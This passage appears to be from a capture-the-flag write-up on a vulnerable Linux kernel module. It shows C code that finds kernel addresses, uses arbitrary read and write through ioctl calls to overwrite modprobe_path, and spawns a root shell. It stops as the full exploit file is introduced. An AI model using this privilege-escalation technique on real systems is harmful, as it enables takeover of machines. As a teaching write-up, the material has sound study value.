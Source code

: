 
Then, reopen `/proc/kallsyms` to get the kernel base address (`_text`) and the address of `modprobe_path`, and note both of these addresses in our binary payload.

```c
/*
root@tcp1p:~# cat /proc/kallsyms | grep -wE "_text|modprobe_path"
ffffffff81000000 T _text
ffffffff82852420 D modprobe_path
*/

#define BASE_ADDRESS 0xffffffff81000000
#define MODPROBE_PATH_OFFSET (0xffffffff82852420 - BASE_ADDRESS)
```

Since we can perform Arbitrary Address Read, we can start with an egghunt to locate where the address of the string "/sbin/mo" (8 bytes) is stored. 

```c
    struct Payload ww;
    int offset = 0;
    long leaked_value = 0;

    for (offset=0; offset <= 512; offset++)
    {
        ww.where = &leaked_value;
        ww.value = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
        ioctl(fd, 0x6969, &ww);
        leaked_value = ww.where;
        printf("%d = 0x%llx\n", offset, leaked_value);
        if (leaked_value == 0x6f6d2f6e6962732f){ // "/sbin/mo"
            printf("[+] OFFSET FOUND %d\n", offset);
            break;
        } 
    }
```


If found, we can then proceed to use Arbitrary Address Write to overwrite `modprobe_path` with "/home/blud/x", then trigger the shell.

```c
    puts("[+] Overwrite modprobe_path with evil_str");
    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
    ww.value = (long)(&evil_str)+0;
    ioctl(fd, 0xFADE, &ww);

    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20)+8;
    ww.value = (long)(&evil_str)+8;
    ioctl(fd, 0xFADE, &ww);
    get_shell();
```

Here's my exploit to solve this challenge.

<details open> <summary>exploit.c</summary>
